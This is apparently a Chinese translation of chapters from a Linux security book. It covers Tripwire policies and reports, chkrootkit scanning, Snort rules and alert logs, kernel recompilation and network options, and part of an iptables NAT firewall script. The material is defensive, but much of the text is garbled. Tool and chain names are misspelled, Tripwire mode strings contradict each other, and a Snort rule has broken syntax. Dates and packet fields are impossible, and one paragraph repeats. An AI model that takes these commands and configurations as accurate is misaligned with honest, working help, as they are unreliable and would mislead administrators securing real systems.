- `M`: MD5 哈希值
- `S`: SHA 哈希值

让我们来看一些示例：

```
# 比较 /var/www 目录权限的变化
/var/www -> +p
```

```
# 比较文件所有者 UID/GID 的任何变化，但忽略
# 任何大小的变化：
/etc/named.conf -> +gu-s
```

如你所见，模式可以任意组合堆叠；然而，某些组合比其他组合更常见，Tripwire 提供了以下内置变量作为快捷方式：

- `ReadOnly`: 等同于 `+pinugtsdbmcm-rlacSH`，ReadOnly 适用于用户全局可读但不可写的文件。`/etc/ssh_config` 是此类保护的良好候选对象。
- `Dynamic`: 用于定期会发生正当变化的文件或目录（例如用户的家目录），此变量等同于 `+pinugtd-srbamcmCMSH` 模式集。
- `Growing`: 与 Dynamic 相同，不同之处在于 Tripwire 还会检查文件大小是否增加 (`+pinugtd-srbamcmCMSH`)。这使得 Growing 适用于大小会增加的文件（如日志文件），但在其他情况下不应被修改。
- `Device`: 用于表示 Tripwire 不应尝试打开的设备（例如在 `/dev` 中常见的设备）。等同于模式系列 `+pugsdr-intlbcmCMSH`。
- `IgnoreAll`: 用于对象的所有属性，但其存在或不存在除外 (`-pinugtsdrbamcmCMSH-`)。
- `IgnoreNone`: `+pinugtsdrbamcmCMSH-1`，比较所有属性。

例如，

```
/var/log -> $(Growing)
/etc/apache/httpd.conf -> $(ReadOnly)
/var/named -> $(IgnoreNone) -a
```

## 忽略文件和目录

Tripwire 只扫描策略文件列列出的对象，但有时由于使用了目录简写，该文件可能包含不重要的对象。例如，如果我们指定 `/etc -> $ReadOnly`，则 `/etc` 下的所有文件和子目录都将被监控。要忽略 `/etc` 下的单个对象，我们可以在它们前面加感叹号来取反它们：


```
/etc -> $ReadOnly
!/etc/ld.cache.so
!/etc/mtab
```

# 规则属性

你可以通过在属性模式后的括号中列出一个或多个属性来可选地扩展基本策略语法：

```
object -> property mode (attribute name = value)
```

为了对一组对象设置相同的属性，我们可以使用另一种语法：

```
(attribute name = value) {
  object -> property mode
  object -> property mode
  object -> property mode
  ...
}
```

以下是可以使用的属性：

`rule own`: 允许为规则附加一个任意名称，如果规则被违反，该名称将显示在报告文件中。这便于在报告中进行 `grep` 搜索或对数据库中的键进行排序。示例：`/bin -> $ReadOnly (rulename = binaries)`。

`emailto`: 当执行完整性检查时，如果规则被违反，此处定义的任何地址将发送电子邮件。例如，`/etc -> +us (email = pete@example.com)`。

`severity`: 允许为规则附加任意的严重程度。在执行完整性检查时，你可以指定监控高于某个严重程度的规则。有效范围为 `0` 到 `7`。

`recurse`: 当对象是目录时，这控制是否处理子目录。设置为 `1`，Tripwire 将扫描子目录。如果设置为 `0`，则只扫描目录本身。默认值为 `0`。

# 创建和修改规则

在使用策略语言后，你会发现你需要修改策略以描述你的系统，然后使用 `twadmin` 生成策略的签名副本。

# 安装后配置

在对策略进行任何更改后，你需要运行 `tripinstall.sh` 脚本来执行安装任务，如设置管理密码、将策略编译为二进制格式。

```
# ./tripinstall.sh
```

# 初始化数据库

最后一步是创建一个包含策略中列的所有文件状态的数据库。当你执行完整性检查时，文件状态将与此数据库中的状态进行比较。

```
# tripwire --init
Please enter your local passphrase:
Parsing policy file: /etc/tripwire/tw.pol
Generating the database...
*** Processing Unix File System ***
### Warning: File system error.
### Filename: /usr/sbin/fixrtab
### No such file or directory
### Continuing...
...
```

写入数据库文件:`/var/lib/tripwire/polo.twd`

数据库已成功生成。

如果你使用默认策略文件，无疑会收到这里的警告消息。这不需要担心——它只是说明了系统中软件包以及创建该策略文件的发行版。然而，从策略中删除这些规则是一个好主意，这样它们在未来的 Tripwire 运行中就不会弄乱输出。

# 自动检查

数据库编译完成后，Tripwire 现已准备就绪。如果你是通过 `RPM` 安装的，一个每天调用 Tripwire 的 `cron` 任务（`cron job`）已经设置好了；否则，你可能需要创建自己的任务。在 `/etc/cron.daily` 中创建一个名为 `tripwire-check` 的文件，并添加以下代码：

```bash
#!/bin/sh
HOST_NAME=$(uname -n)
if [ ! -e /var/lib/tripwire/${HOST_NAME}.twd ]; then
    echo **** Error: Tripwire database for ${HOST_NAME} not found.
    echo **** Run /etc/tripwire/twinstall.sh and/or "tripwire-init" ****
else
    test -f /etc/tripwire/tw.cfg && /usr/sbin/tripwire -check
fi
```

Tripwire 生成的报告存储在 `/var/lib/tripwire/report/` 中；不要忘记检查它们。

# 手动检查

或者，你可以使用以下语法手动启动检查：

```bash
### /usr/sbin/tripwire -check
Parsing policy file: /etc/tripwire/tw.pol
*** Processing Unix File System ***
Performing integrity check...
### Warning: File system error.
### Filename: /usr/sbin/fixrmatab
### No such file or directory
### Continuing...
```

同样，你会看到关于不存在的文件和目录的警告。扫描完成后，将生成一份报告并写入 `/var/lib/tripwire/report`。它也会显示在标准输出（`STDOUT`）上：

```
Wrote report file:
/var/lib/tripwire/report/polo-20040905-013157.twr
```

`Tripwire(R) 2.3.0` 完整性报告

Report generated by: `root`

Report created on: Sun 05 Sep 2004 01:31:57 IST

Database last updated on: Never

```
==========================================================
```

# 报告摘要：

```
=========================================================
```

主机名: `polo`

主机 IP 地址: `127.0.0.1`

主机 ID: None

使用的策略文件: `/etc/tripwire/tw.pol`

使用的配置文件: `/etc/tripwire/tw.cfg`

使用的数据库文件: `/var/lib/tripwire/polo.twd`

使用的命令行: `/usr/sbin/tripwire -check`

```
==========================================================
```

# 规则摘要：

```
==========================================================
```

```
----------------------------------------------------------
```

# 章节：Unix 文件系统

```
----------------------------------------------------------
```

| 规则名称 | 严重性级别 | 添加 | 删除 | 修改 |

|---|---|---|---|---|

| 不变目录 | 66 | 0 | 0 | 0 |

| 关键设备 | 100 | 0 | 0 | 0 |

| 临时目录 | 33 | 0 | 0 | 0 |

| * `Tripwire 数据文件` | 100 | 1 | 0 | 0 |

| * `root 配置文件` | 100 | 0 | 0 | 2 |

| 用户二进制文件 | 66 | 0 | 0 | 0 |

| `Tripwire 二进制文件` | 100 | 0 | 0 | 0 |

| 关键配置文件 | 100 | 0 | 0 | 0 |

| 库 | 66 | 0 | 0 | 0 |

| 操作系统实用程序 | 100 | 0 | 0 | 0 |

| 关键系统启动文件 | 100 | 0 | 0 | 0 |

| 文件系统和磁盘管理程序 | 100 | 0 | 0 | 0 |

| 内核管理程序 | 100 | 0 | 0 | 0 |

| 系统管理程序 | 100 | 0 | 0 | 0 |

| 网络安全 | 100 | 0 | 0 | 0 |

| 设备控制 | 100 | 0 | 0 | 0 |

| 系统信息 | 100 | 0 | 0 | 0 |

| 应用程序 | 100 | 0 | 0 | 0 |

| `Shell` 脚本 | 100 | 0 | 0 | 0 |

| `Shell` 二进制文件 | 100 | 0 | 0 | 0 |

| 系统启动文件 | 100 | 0 | 0 | 0 |

| 实用程序 | 100 | 0 | 0 | 0 |

| 登录 | 100 | 0 | 0 | 0 |

| 脚本 | 100 | 0 | 0 | 0 |

扫描的对象数：3681

发现的违规项：3


# 对象摘要

`Unix 文件系统`

正如你可以看到，发现了三个策略违规：

- 修改：`/root`
- 规则名称: `root` 配置文件 (`/root`)
- 严重性级别: 100
- 修改：`/.vmininfo`
- 规则名称: `Tripwire` 数据文件 (`/var/lib/tripwire`)
- 严重性级别: 100
- 添加：`/var/lib/tripwire/polo.twd`

# 错误报告

保持安全 481

`Unix 文件系统`

+ 文件系统错误。
文件名: `/usr/sbin/fixrmatab`
无此类文件或目录

`*** 报告结束 ***` `Tripwire` 2.3 版本 copyright 2000 `Tripwire`, Inc. `Tripwire` 是 `Tripwire`, Inc. 的注册商标。本软件不提供任何保证；详情见 `COPYING`。保留所有权利。完整性检查完成。

正如你看到的，发现了三个策略违规：`/var/lib/tripwire/polo.twd`（`Tripwire` 数据库）被添加，`/.vmininfo`（`Vim` 编辑器使用）被修改。作为结果，`/root` 目录也被修改，`Tripwire` 也报告了这一点。

# 更新数据库

在之前的示例中，你可以通过将 `.vmininfo` 设置为动态，或简单地忽略它来停止该警告：

如果你以后需要更新策略，明显的方法是编辑策略并重新运行 `twinstall.sh`。但是，这种方法并不高效（这意味着要重建整个数据库），`Tripwire` 提供了另一种方法，可以使用以下语法调用：

```bash
# tripwire --update policy.txt
```

# 结语

你可能注意到 `Tripwire` 与第 9 章涵盖的 ACL（访问控制列表）之间的强烈相似之处：两者都使用列出对象及其模式的数据库，但仍然存在根本区别。ACL 会主动阻止用户更改文件，而 `Tripwire` 仅在更改发生时发出警告。即使如此，如果管理员不执行完整性检查并查看生成的报告，他也不会发现任何违规。

# chrootkit

尽管很少这样描述，`chrootkit` (`http://www.chrootkit.org/`) 本质上是一个针对 rootkit 的病毒扫描器。正如我们在第 2 章讨论中提到的，病毒、蠕虫和 rootkit 之间的区别（尽管每个都有明确定义）在实践中可能会变得模糊，某些程序显示出三者的特征。因此，尽管 `chrootkit` 自称为 rootkit 扫描器，但你会发现它也能检测我们通常描述为蠕虫或病毒的程序。

截至目前，`chrootkit` 最新版本扫描 50 多个恶意程序，包括

- `LRK` (`Linux Rootkit`)
- `Törn`（见第 2 章）
- `Adore LKM`（见第 2 章）
- `Slapper` 蠕虫
- `Adore` 蠕虫（与 `Adore` rootkit 无关）

# 安装与用法

安装 `chrootkit` 非常简单。从 `http://www.chrootkit.org/` 获取最新的源码压缩包，解压并执行 `make` 和 `make install`。要扫描系统，只需启动 `chrootkit` 二进制文件即可：

484 `Linux` 网络安全

```bash
# chkrootkit

ROOTDIR = '/'

Checking `amd`... not found
Checking `basename`... not infected
Checking `biff`... not infected
Checking `chfn`... not infected
....
```

几分钟后，扫描将完成，你可以回溯输出内容寻找警告信息。与所有工具一样，误报是不可避免的；最好的解决办法是在安装操作系统后立即运行 `chkrootkit`。假设你信任该发行版没有后门——现在你将获得一个任何针对你系统特有的误报的列表。在随后的扫描中，你将能够区分误报和真正的 rootkit（根内核程序）。

# 专家模式

虽然 `chkrootkit` 是一个非常有用的工具，但它仅限于扫描其具有特征码的 rootkit，这意味着——和普通病毒扫描器一样——它总是落后检测器一步。为了应对这个问题，`chkrootkit` 提供了一个专家模式（使用 `-x` 标志），在此期间，会创建一个更详细的报告——包括对系统二进制文件运行 `strings` 命令的输出。你可能希望将输出重定向到文件中，以便稍后检查：

```bash
# chkrootkit -x > /root/scan.log
```

# 对可疑系统使用 Chkrootkit

`Chkrootkit` 使用了 `ps` 和 `netstat` 等常用系统工具，但许多 rootkit 会二进制文件替换为带有木马的副本；如果你在怀疑已被攻破的机器上运行 `chkrootkit`，这种技术是不准确的。

解决方案是在软盘、CD-ROM 或只读介质上制作此类实用程序的备份副本。然后你可以使用 `-p` 选项将此位置指定给 `chkrootkit`：

```bash
# chkrootkit -p /mnt/cdrom/bin
```

你需要复制给 `chkrootkit` 的二进制文件有 `awk`, `cut`, `echo`, `egrep`, `find`, `head`, `id`, `ls`, `netstat`, `ps`, `strings`, `sed` 和 `uname`；如果你发现自己试图调查被攻破的机器，可能会发现复制其他程序供自己使用很有用。考虑到 `/bin`、`/sbin`、`/usr/sbin` 和 `/usr/bin` 的体积较小，你应该能够轻松地将所有四个目录都放入一张 CD-ROM 中。

# 入侵检测

前述的工具检查本地文件系统的完整性，而入侵检测系统（IDS）则监控网络，寻找可能指示正在进行攻击的数据包序列。大多数 IDS 使用基于特征码的检测（监控已知漏洞利用的特征码）和异常检测（系统“学习”网络上的典型流量模式，然后记录任何偏离该模式的差异）的结合。需要注意的是，虽然许多 IDS 提供了阻止可疑数据包的功能，但这种行为并不是蕴含在定义之中的——在它的真正意义上，IDS 仅仅是检测，而不是防御。

最流行的 IDS 之一是 `LIDS`，你在第 9 章中读到过它。`LIDS` 已经不仅仅是一个 IDS 了，那时我们讨论了使用它来强制 ACL（访问控制列表）；然而，它提供了传统意义上的 IDS 功能。你只需要在配置了 IDS 补丁的内核时选择“内核端口扫描检测器”（`Port Scanner Detector in Kernel`），即可让 `LIDS` 检测并记录端口扫描。

# Snort

`Snort` 被亲切地称为“猪”（`pig`），是一个灵活的 IDS，也可以用作数据包嗅探器和记录器。`Snort` 可以从 `http://www.snort.org` 获取，随附的 CD-ROM 中可以版本 2.2.0。

### 安装

安装遵循通常的 `./configure;make;make install;`；如果你想记录日志到数据库（如 `MySQL`），输入 `./configure --help` 查看配置选项列表。安装后，创建 `/etc/snort` 目录，并将其复制到 `Snort` 源码中 `/etc` 目录下的 `Snort` 文件中。你还需要创建 `/var/snort` 目录供 `Snort` 存储：

```bash
# mkdir /etc/snort
# cp /home/peter/snort-2.2.0/* /etc/snort
# mkdir /var/snort
```


### 配置

在启动 `Snort` 之前，需要编辑 `/etc/snort/snort.conf` 文件。该文件很大，但语法非常直观；在配置它之前，你可能需要阅读文件的其余部分以熟悉 `Snort`。配置文件被分为：

- 主机（Host）：变量、接口（`interfaces`）以及监听端口（`ports`）。
- 处理器（Preprocessors）：允许 `Snort` 与数据库集成。
- 输出（Output）：基于类别（`category`）的输出配置。
- 规则集（Ruleset）：允许攻击的特征码序列。

特征码的启用或禁用取决于输出配置。二进制输出不是人类可读的（可以使用 `tcpdump` 查看）。默认输出是明文（`plaintext`）的，但你可以使用 `-b` 标志来选择二进制输出。警告级别定义了 `Snort` 在检测到可能的入侵尝试时的行为——默认情况下是记录到 `syslog` 和控制台。

# 性能

除非使用二进制输出，否则 `Snort` 在繁忙网络运行时可能会产生性能损耗。二进制输出不是人类可读的（可以使用 `tcpdump` 查看），但它在处理繁忙网络时具有优势。默认输出是明文（`plaintext`）的，但你可以使用 `-b` 标志来选择二进制输出。

# 日志

`/var/log/snort` 目录包含所有检测尝试的详细信息，并按源 IP 进行组织：

```text
ls -l

drwxr-xr-x 2 root root 4096 Oct 10

-rw-r--r-- 1 root root    0 Oct 10 alert

-rw-r--r-- 1 root root    0 Oct 10 alert.log

-rw-r--r-- 1 root root    0 Oct 10 fast.log

-rw-r--r-- 1 root root    0 Oct 10 fast.log

-rw-r--r-- 1 root root    0 Oct 10 fast.log

-rw-r--r-- 1 root root    0 Oct 10 fast.log
```

`alert` 文件包含每个警告的详细信息，无论 IP 地址如何。在以下输出中，我们可以看到三个警告：第一个是 `Nmap` 扫描的 `ICMP PING`，第二个和第三个是 `SNMP` 请求的结果。数据包头详情（包括源 IP）提供了 URL 以获取更多信息。

```text
cat alert

[**1469:3] ICMP PING NMAP **

[Classification: Attempted Information Leak [Priority: 2]

09/21-2024:21:14.413370 192.168.10.1 -> 192.168.10.10

ICMP TTL:38 OS:0 ID:22505 Iplen:20

Type:8 Code:0 ID:15324 Seq:0 ECHO

[**1420:11] SNMP trap tcp **

[Classification: Attempted Information Leak [Priority: 2]

09/21-2024:28.815348 192.168.10.19150 -> 192.168.10.162

TCP TTL:748 OS:0 ID:51125 Iplen:20

DgmLen:40

*****S* Seq:0xE3924826 Ack:0XO Win:0x400 TcpLen:20
```

```text
[1:1418:11] SNMP 请求 tcp
[分类: 尝试信息泄露] [优先级: 2]
09/21/2024:24:29.821559 192.168.10.1:49150 -> 192.168.10.10:161
TCP TTL:48 TOS:0 ID:19807 IPLen:20 DgmLen:40
***S Seq:0xe394826c Ack:0x0 Win:0x400 TcpLen: 20
[交叉引用 =>] http://cve.mitre.org/cgi-bin/cname.cgi?name=2002-0013]
[交叉引用 =>] http://cve.mitre.org/cgi-bin/cname.cgi?name=2002-0012]
[交叉引用 =>] http://www.securityfocus.com/bid/4132
[交叉引用 =>] http://www.securityfocus.com/bid/4089
[交叉引用 =>] http://www.securityfocus.com/bid/4088
```

源主机也会记录此信息，用 IP 地址形成目录名，用协议和源/目的端口形成文件名：

```text
cat 192.168.10.1/TCP:49150-162

[**] SNMP 陷阱 tcp [**]
09/21-20:24:28.815348 192.168.10.1:520 -> 192.168.10.10:162
TCP TTL:48 TOS:0 ID:51125 IPLen:20 DgmLen:40
*****S Seq:0xe394826c Ack:0x0 Win:0x400 TcpLen: 20
++++++++++++++++++++++++++++++++++++++++
```

# 创建规则

我们之前提到过，`Snort` 配置文件的第四部分包含一系列用于控制检测哪些类型攻击的 `Include` 语句；事实上，`snort` 包含一种强大的规则语法，允许你为未包含在默认列表攻击（或其他你想要警报的其他网络事件）创建签名。

规则分为两个部分：头部（`header`）和选项（`options`）。头部标识规则应应用的流量类型（例如，对于 `RPC portmapper` 守护进程上的所有入站连接），而选项是应采取的动作（如果数据包载荷表明尝试访问 `NFS` 服务，则生成警告）。注意，头部规则仅检查数据包的头部（如源和目的 IP 及端口）——数据包的载荷是通过规则的选项进行匹配的。

以下示例显示，如果一个包含十六进制字符串 `00 81 86 a5` 的数据包到达网络且目标为 `192.168.0.7`，则生成一个警告：

```text
alert tcp any any -> 192.168.0.7 any (content:"00 01 86 a5|";
msg:"mount dnd access \)
```

如果内容没有被管道符号 (`|`) 包围，则被假设为纯文本而非十六进制。以下规则显示，如果从局域网内运行 `Telnet` 的机器向互联网发送了 `Login incorrect` 字符串，则触发告警：

```text
alert top $TELNET_SERVERS 2 -> $EXTERNAL_NET (msg:"TELNET login
incorrect"; flow:from_server,established; content:"Login incorrect";
reference:arachnids,127; classype:bad-unknown; sid:718; rev:7);
```


注意使用变量来指定局域网内允许 Telnet 访问的客户端 IP 地址 `$TELNET_SERVERS` 以及外部网络的 IP 地址 `$EXTERNAL_NET`：这些变量可能定义在 Snort 配置文件的顶部。

如果你需要创建自己的规则（请记住 Snort 包含大量的预定义规则/签名），你可以直接将它们添加到 `snort.conf` 中，或者更好的方法是——将它们放在单独的文件中，并使用 `Include` 指令将其包含在 `snort.conf` 中。

## 11.5 从入侵中恢复

如果你遵循了书中给出的所有建议，那么一个遗憾的事实是：没有任何系统是 100% 安全的，因此你需要为系统被入侵的可能性做好准备。在这些情况下，预先计划的系统恢复策略是无价的。你可能还想寻求法律救济，因为在本节中，我们将研究从被入侵的机器可以学习关于攻击者的什么，以及让攻击者受到法治的可用选项。

# 发现安全漏洞

大量的系统入侵未被管理员察觉，破解者维持访问权限几个月甚至几年并不罕见。仅仅发现你的系统被入侵只是成功了一半；但不要犯了认为这是一项简单任务的错误。虽然普通的破解者可能只有中等技术水平，但他用来隐藏行踪的工具通常是由非常有才华的人编写的。

如果你怀疑系统被入侵了，日志文件是你的起点。

检测恶意行为（这可能表明系统已入侵）的另一种方法（无论是单台机器还是整个网络）是通过使用 IDS（入侵检测系统）和系统完整性检查工具。我们已经介绍了其中两个——`Tripwire` 和 `Snort`——但也有许多其他可用工具。

## 参考文献

- [Crane99] Crane, Aaron, "The Linux ext2fs Undeletion mini-HOWTO." 在线获取 `http://www.linux.org/docs/ldp/howto/Ext2fs-Undeletion.html`，1999.

# 附录 A 重新编译 Linux 内核

Linux 发行版的核心是内核，它处理如与硬件接口和资源管理等任务。为了让安装 Linux 尽可能顺利，大多数 Linux 发行版默认使用配置为支持广泛硬件和平台的内核。这允许内核识别更多种类的显卡、网络适配器、外围设备，但会导致内核包含许多不必要的功能，并且远未经过优化。在配置较低的系统上，内核使用的内存（无法交换到磁盘）可能是相当大的。

想要编译内核的另一个常见原因是启用您的操作系统发行版中未包含的功能。本书的第 3 章“安全拓扑”和第 6 章“基本系统安全措施”涵盖了许多不常用的 `Netfilter` 选项，重新编译可能需要添加对这些选项的支持。

精简内核（通过删除对硬件和驱动程序的非必要支持）是留给您的任务；它高度依赖于您的特定机器，并且需要理解每个配置选项的准确目的。在附录 B“网络内核配置选项”中，配置集涉及 `NAT`、数据包过滤和 `IPSec`；在本附录中，我们重点关注配置和编译 Linux 内核的背后的机制。整个过程可以细分为四个阶段，每个阶段都将进行详细介绍：

- 获取并解压最新的内核版本
- 配置
- 编译
- 安装

在这方面，内核与任何以源码形式提供的其他 Linux 应用没有太大区别。

# 获取内核源码

如果内核源码在初始安装期间已安装在您的系统上，可以在 `/usr/src/linux` 中找到它；通常做法是让该目录以内核版本命名，并链接到 `/usr/src/linux`：

```
lrwxrwxr-x 1 root root  12 May 27 21:31 linux -> linux-2.6.2/
drwxr-xr-x 19 root 4096 May 28 11:10 linux-2.6.2/
```

可以通过执行命令 `uname -r` 来确定当前运行的 Linux 内核版本。

即使您使用的是最新的 Linux 发行版，内核可能比当前版本旧几个小版本，因此您应该从 `kernel.org` 下载最新的发布版本。如果您仍在使用 2.4 内核，更新将尤为重要。2.6 系列包含了许多改进和新功能。

`kernel.org` 可以 HTTP (`http://www.kernel.org`) 或 FTP (`ftp.kernel.org`) 访问。大多数国家都可以访问该站点的镜像，并遵循 `ftp.kernel.org` 的命名方案，其中 `xx` 是您的国家代码（例如，`us`, `uk`, `de`）。使用镜像可以减轻主站的负载，并应该带来更快的下载速度。`/pub/linux/kernel/` 目录包含了内核每个分支的目录。内核版本号使用 `major.minor.patch` 命名方案（奇数次的小版本是开发版本，不建议用于生产服务器）；在写作时，2.6 系列是最新的。`/pub/linux/kernel/v2.6/` 包含了 2.6 系列中发布的每个内核，可以以完整源码或补丁的形式提供。如果您已经有了 2.4 内核的源码并对它们熟悉，补丁提供了一种更快的更新方法。内核以压缩文件的形式提供，采用 `gzip` (`.gz`) 或 `bzip2` (`.bz2`) 格式；`tar` 支持这两种格式，但在这种情况下首选 `bzip2`，因为生成的文件明显更小。下载相应的 `bzip2` 文件，将其复制到 `/usr/src`，然后移动到 `/usr/src` 并使用以下命令解压：

```
tar -xjvf linux-x.xx.tar.bz2
```

这会创建一个名为 `linux-x.xx` 的目录，其中 `x.xx` 代表下载的版本。接下来，创建一个符号链接 `linux` 指向该目录：

```
ln -s linux-x.xx linux
cd linux
```

# 配置内核

在内核编译和安装之前，必须先对其进行配置。Linux 提供了几种方法来完成此操作，取决于您的个人偏好：

- `make config`: 控制台上的一系列问题
- `make menuconfig`: 基于文本的菜单
- `make xconfig`: `X11` 配置工具
- `make gconfig`: 图形配置工具

在这些中，`menuconfig` 是首选方法。执行 `menuconfig` 会生成一系列菜单，可以使用方向键进行导航。您可以使用 `y` 和 `n` 键选择和取消选择选项（即在内核中启用或在内核中禁用），按下空格键可以在这些状态之间切换。某些选项可以通过按 `m` 编译为模块。解释每个配置选项的目的超出了本书的范围，但您可以在附录 B 中找到 `IPSec` 和 `Netfilter` 的所需设置列表。特别是，除非您确定它们的作用，否则应该谨慎禁用某些选项；一个稍微臃肿的内核比一个无法运行的系统要好。

# 编译内核

为了开始编译，执行以下两个命令：

```
make dep
make clean
```

取决于系统的配置，整个过程可能需要几分钟到一小时不等。接下来构建内核：

```
make bzImage
```

# 安装内核

最后阶段是安装新构建的内核。在大多数发行版中，内核存储在 `/boot`。为新内核选择一个描述性名称，例如：

```
cp arch/i86/boot/bzImage /boot/bzImage-2.6
```

或

```
cp arch/i86/boot/bzImage /boot/bzImage-2.6.6
```

```
title Red Hat Linux (2.6.2)
root (hd0,0)
kernel /bzImage-2.6.2 ro root=/dev/hda3
```


默认内核通过默认行（从零开始）指定，并可以选择性使用启动图像。每个内核条目的的形式由一个标题（显示在 GRUB 菜单中）；根磁盘；以及相对于 `/boot` 的镜像路径，连同根文件系统（在本例中为 `/dev/hda3`）组成。与 `LILO` 不同，不需要执行额外的命令，现在可以重启系统了。

# 尾注

严格来说，“Linux”仅指内核本身。我们通常所说的 Linux 操作系统是由一系列免费（主要是 GNU 的）应用程序和工具组成的，这些工具与内核共同工作以提供一个完整的操作系统。

# 附录

## B 内核配置

### 网络配置选项

使用 `make menuconfig` 命令会生成一系列基于 `ncurses` 的菜单，通过分级结构提供内核配置选项访问。与网络相关的选项位于“Networking Support”（网络支持）子菜单中。在“Networking Support”子菜单中，你可以通过按下空格键或按键来选择 `Networking Support`（如果尚未选择），或者访问与网络设备和要显示的选项相关的更多设置，如图 B.1 所示。



图 B.1 2.6.2 内核中的 `Networking Support` 子菜单。

许多选项可以编译为模块（而不是作为内核的一部分编译），然后可以根据需要加载。对于不常用的模块，这降低了内核占用的内存量；但许多 `Netfilter` 选项将始终处于使用状态，因此将它们编译为模块并无性能增益。常见的做法是将必要的选项编译到内核本身，并为其他选项编译模块；这样，你以后不可避免需要加载的功能就不需要重新编译内核。

### NETWORKING SUPPORT -> NETWORKING OPTIONS

感兴趣的配置项都位于“Networking Options”（网络选项）菜单中，它是图 B.1 所示列表中的第二项。

- `Packet socket`（数据包套接字）：`tcpdump` 等工具需要，应该启用。
- `Unix domain sockets`（Unix 域套接字）：`X11` 和 `syslogd` 需要。
- `PF_KEY sockets`：某些 `IPsec` 协议需要。
- `IP: TCP syncookie support`：启用对 `cookie` 的支持，在第 3 章“安全拓扑”中进行了讨论。
- `IP: AH transformation`：`IPsec` 需要的认证头。
- `IP: ESP transformation`：`IPsec` 的数据包加密。
- `IP: IPComp transformation`：`IPsec` 需要。
- `IPsec user configuration tool`：提供一个用于配置 `IPsec` 的用户态工具。

`Fast switching`（快速交换）：提供非常快速的流量交换，但与 `Iptables` 不兼容，且不应启用。

### NETWORKING SUPPORT -> NETWORKING OPTIONS -> TCP/IP NETWORKING

启用此项会导致其他几个选项变得可用：

- `IP: advanced router`（高级路由）：启用更智能的路由——基于数据包的 `ToS` 或由 `Iptables` 创建的标记。这些设置并非必不可的，但可以为高级用户提供一些功能。

### 网络内核配置选项

`IP: tunneling`（隧道技术）：提供 `IP over IP` 封装，这对于创建 `VLAN` 有用，但并非必不可。图 B.2 所示的菜单提供了 `Iptables` 的详细选项。如果该菜单中的任何项都没有与其他设置冲突，且你不确定是否需要某个特定项，通常做法是谨慎起见并启用它。



图 B.2 2.6 内核中的 `Netfilter` 配置。

`IP: tunneling`：提供 `IP over IP` 封装，这对于创建 `VLAN` 有用，但并非必不可。图 B.2 所示的菜单提供了 `Iptables` 的详细选项。如果该菜单中的任何项都没有与其他设置冲突，且你不确定是否需要某个特定项，通常做法是谨慎起见并启用它。

`CONNECTION tracking`（连接跟踪）：允许与用户态应用程序交互，是必要的。在 2.6 内核中，以下跟踪模块可用：

- `FTP` 协议
- `IRC` 协议
- `TFTP` 协议

在这些中，只有 `FTP` 是通常需要的。

### `IPTABLES`（表）

一旦选择，以下选项变得可用：

- `match`（匹配）：启用在第 6 章中讨论的匹配。
- `target`（目标）：启用目标支持。
- `Full NAT`（完全 `NAT`）：提供 `NAT` 支持。
- `Mangling`（混淆）：允许数据包混淆。
- `REJECT`（拒绝）：启用拒绝支持。
- `j`（跳转）：启用 `j` 目标支持。

### `ECN`（显式拥塞通知）

启用 `ECN` 支持。

### `QoS`（服务质量）

启用 `QoS` 支持。

### `Routing mark`（路由标记）

启用路由标记。

### `State`（状态）

启用状态跟踪。

### `SNAT`（源网络地址转换）

启用 `SNAT`。

### `DNAT`（目的网络地址转换）

启用 `DNAT`。

### `RAW`（原始）

启用以下链：

- `INPUT`（输入）
- `OUTPUT`（输出）
- `WARD`（转发）
- `PRERUTING`（预路由）
- `POSTROUTING`（路由后）

# NAT 防火墙脚本 507

```
$IPT -A INPUT -m state \
  --state ESTABLISHED,RELATED -j ACCEPT

$IPT -A OUTPUT -m state \
  --state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```
$IPT -t nat -A PREROUTING -p tcp -i $IF_EXT --dport 80 \
  -j DNAT --to-destination $DMZ_HTTP

$IPT -t nat -A PREROUTING -p tcp -i $IF_EXT --dport 443 \
  -j DNAT --to-destination $DMZ_HTTP

$IPT -t nat -A PREROUTING -p tcp -i $IF_EXT --dport 53 \
  -j DNAT --to-destination $DMZ_DNS

$IPT -t nat -A PREROUTING -p udp -i $IF_EXT --dport 53 \
  -j DNAT --to-destination $DMZ_DNS

$IPT -t nat -A PREROUTING -p tcp -i $IF_EXT --dport 25 \
  -j DNAT --to-destination $DMZ_MAIL
```

```
$IPT -A FORWARD -i $IF_DMZ -o $IF_EXT -j ACCEPT

$IPT -A FORWARD -i $IF_EXT -o $IF_DMZ -m state \
  --state ESTABLISHED,RELATED -j ACCEPT
```

```
$IPT -A FORWARD -p tcp -i $IF_DMZ -o $DMZ_HTTP \
  --dport 80 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A FORWARD -p tcp -i $IF_EXT -o $IF_DMZ -d $DMZ_HTTP \
  --dport 443 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A FORWARD -p tcp -i $IF_EXT -o $IF_DMZ -d $DMZ_DNS \
  --dport 53 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT

